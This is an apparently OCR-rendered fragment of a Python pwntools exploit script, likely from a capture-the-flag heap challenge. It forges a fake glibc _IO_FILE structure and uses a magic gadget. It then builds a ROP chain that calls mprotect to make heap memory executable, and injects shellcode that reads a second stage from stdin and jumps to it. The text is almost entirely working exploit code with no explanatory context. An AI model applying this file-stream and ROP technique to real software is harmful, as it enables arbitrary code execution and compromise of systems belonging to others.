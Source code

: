 ```python

f1._IO_save_base = fake_IO_FILE + 0x510 + 0x100

payload = flat(
    {
        0: {
            0: bytes(f1)[0x10:],
            0xE0 - 0x10: {
                0x18: [0],
                0x30: [0],
                0xE0: [fake_IO_FILE + 0x200],
            },
            0x200 - 0x10: {0x68: [magic_gadget]},
        },
    }
)
edit(0, payload)

first_state = f"""
    mov rdi, 0;
    mov rsi, {heap_base + 0x1000};
    mov rdx, 0x1000;
    mov eax, 0;
    syscall;

    mov rax, {heap_base + 0x1000};
    call rax;
"""

edit(3, asm(first_state))

payload = flat(
    {
        0: {
            0: b"a" * 0x10,
            0x100 - 0x20: {
                0: [0xDEADBEEF, add_rsp_0x38_ret],
                0x18: [fake_IO_FILE + 0x520 + 0x100],
                0x28: [leave_ret],
                0x38: [
                    leave_ret,
                    fake_IO_FILE + 0x520 + 0x200,
                    pop_rdi_ret,
                    heap_base,
                    pop_rsi_ret,
                    0x21000,
                    pop_rdx_ret,
                    7,
                    libc_base + libc.sym.mprotect,
                    heap_base + 0x15F0 + 0x10,
                ],
            },
        },
    }
)
edit(1, payload)
lg("magic_gadget", magic_gadget)

cmd(5)

NR_fork = 57
NR_ptrace = 101
NR_wait = 61
```